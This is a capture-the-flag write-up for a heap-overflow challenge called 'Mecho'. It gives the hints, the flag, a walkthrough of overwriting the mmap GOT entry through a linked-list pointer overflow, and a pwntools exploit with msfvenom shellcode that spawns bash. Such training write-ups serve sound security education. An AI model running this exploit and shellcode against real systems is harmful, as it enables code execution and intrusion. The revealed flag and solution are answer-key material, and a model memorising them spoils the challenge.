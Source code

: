 

# Challenge Name

Mecho

# Point Value and Assessed Difficulty

​
200  
Medium


# Category

Network Exploitation


# Challenge Prompt/Question


Mecho is better than echo! Now everyone gets the  entire echo history, but it keeps getting too long!



* [binary](mecho)


# Hints


If the challenge is too difficult any of these hints should help the challengers and can be released depending on where they are during their exploit development or where they are stuck.

* __Hint 1:__ *(heap)* Allocation of input is the key!
* __Hint 2:__ *(struct)* How is the history feature built?
* __Hint 3:__ *(extreme hint)* The concept from use-on-free() linking and unlinking type of exploitations can also work for other types of linked lists.  ([Ferguson](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf))


# Key


flag{Wh@m_8AM_7hank_y0u_mM@p_m3(ho$}


# Walkthrough

This challenge requires some knowledge of heap overflows and abusing linked lists. To solve this challenge with the author's proof of exploit an attacker would need to understand how to take advantage of the unlink and link functionality to over-write an entry in the Global Offset Table ([GOT](http://bottomupcs.sourceforge.net/csbu/x3824.htm)) similar to a use-on-free() exploit. [\[1\]](#endnote1)


## Concept Development

The goal behind developing this challenge was to provide a heap based vulnerability that doesn't necessarily rely on ```free()``` in order to write arbitrary data. If an attacker understands how to exploit a ```free()``` vulnerability they should also be able to take advantage of an error in the logic of a linked list as well.


## Discovery

First, let's examine the security features of this program. With [checksec](http://www.trapkit.de/tools/checksec.html) we can see that the binary only has protections from stack execution. This hints to us that we will either need to use something that is already executable (libc for example), use return-oriented-programming, or find some other way to gain execution.

> CANARY    : disabled <p>
FORTIFY   : disabled <p>
**NX        : ENABLED** <p>
PIE       : disabled <p>
RELRO     : disabled

Next, let's examine the binary using ```file```. Here we find that we are dealing with a 64-bit executable and left the symbols intact. How lucky for us!

>mecho: **ELF 64-bit LSB executable, x86-64**, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e91255f29282c131e3f9c914f3ff22d2e06a0258, **not stripped**

The binary is fairly straight-forward. It will read input using ```fgets()``` in a loop. It has two shown options ```!e and !d``` which allow you to exit and delete, respectively, plus was that is hidden ```!\x05``` which allows you to run a diagnostic message. Looking at ```fgets()``` we see that it will accept 0x110 (272) bytes of input from stdin. It will then span the string removing several characters ```0xa, 0xd, 0x9, 0xc, 0xb``` which can all be found under ```man ascii```. After that depending on the option it will either delete a node using ```munmap()``` or create a new node via ```mmap()```.

What happens to the input from ```fgets()```? The input gets placed inside the heap based on an address location chosen by ```mmap()```. Let's examine the heap. First, use ```pgrep mecho``` to find the running pid, then ```cd /proc/pid```, and examine maps. Now, we've discovered something very useful - a mapped area of memory with r/w/x permissions!

![Process-Map](images/proc_maps.png)

Now that we have a place that we can r/w/x, the next goal is to get to our data. When we examine the heap location allocated by ```mmap()```, we are able to see that our input has found its way into the r/w/x part of the heap. Now we have all the components needed in order to exploit this program. An area we can write to that is also executable. Next, comes the redirection of code execution so this area of memory.

![Heap-View](images/fgets_buff.png)


## Solution

In order to gain arbitrary code execution the attacker needs to overflow the buffer used by ```fgets()```. The reason it can be overflowed is because the developer used the sizeof a struct (272 bytes) versus the size of the buffer (255 bytes) to bound the ```fgets()``` function. This allows us to overflow the bytes following the buffer which are used to change a pointer assignment from the next node to a location of our choosing (in this selection I choose the mmap() entry in the PLT). When the pointer assignment is done, the location of our choosing will have the address of the heap instead of the address it previously had. At this point the program will run ```fgets()```, we provide executable shellcode, and then the next time ```mmap()``` is called - our shellcode runs instead of ```mmap()```.

![Code-Register-View](images/pointer_change.png)

The solution is automated in python and uses the [pwntools](http://pwntools.readthedocs.org/en/latest/intro.html) library for simplicity. Testing for a solution was done via attaching to a process in gdb as shown on lines 8-12. However, a remote exploit would work just as easily by changing the process in line 7 to a ```remote(ipAddr, port)``` combination. It's important to note that all address values passed to the vulnerable program must be 8 bytes in size and little endian in order to be interpreted properly by the program itself. I set about doing this in the easiest way - the p64() method from pwntools.

Line 14 is the address I derived from the binary for the Global Offset Table (GOT) [\[2\]](#endnote2) entry for ```mmap()```, which was overwritten with the address to the heap containing shellcode.

Lines 16-22 is the 44 byte payload created by [Metasploit](https://www.metasploit.com/) via ```msfvenom```. Shellcode can also be downloaded from [shell-storm](http://shell-storm.org/shellcode/) which is also used as a source for [PEDA GDB's](https://github.com/longld/peda) shellcode generator.

Lines 27-30 is the actual code that grants me remote execution by taking advantage of an unlink exploit in the binary to write the address of the r/w/x heap into the GOT table entry for mmap.

----

# Proof of Exploit/Solution

```python
#!/usr/bin/python

from pwn import *

context.log_level = 'info'

c = process('./mecho')
# gdb.attach(c, """
#               b main
#               b *0x400990
#               """)

#fgets_plt = p64(0x600f58-0x100)
mmap_plt = p64(0x600f58-0x100)

# msfvenom --payload linux/x64/exec CMD="bash" -f py
# Payload size: 44 bytes
buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x05\x00\x00\x00\x62\x61\x73\x68\x00\x56\x57"
buf += "\x48\x89\xe6\x0f\x05"


rax_plus_1 = "\x48\x83\xC0\x01"
c.send("A"*256)
c.send(str(mmap_plt))
c.sendline("B"*7+rax_plus_1*3+buf)
c.interactive()


```

----

# Endnotes

<a name="endnote1">[1]</a>: Use on ```free()``` is a fairly well known type of exploitation where an attacker takes advantages of how ```malloc()``` and ```free()``` link and unlink nodes in the heap. [Mathy Vanhoef](http://www.mathyvanhoef.com/2013/02/understanding-heap-exploiting-heap.html) and [Justin Ferguson](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf) describe how this works. However, the unlink type of exploitation that occurs with ```free()``` can also apply to any linked list.

<a name="endnote2">[2]</a>: There are several ways to derive addresses of dynamically linked functions from libc. Examples include: ```objdump -R mecho```, ```readelf -r mecho```, and with ```elfsymbol``` while inside GDB with a PEDA extension installed. [Click here](https://github.com/longld/peda) for GDB PEDA.
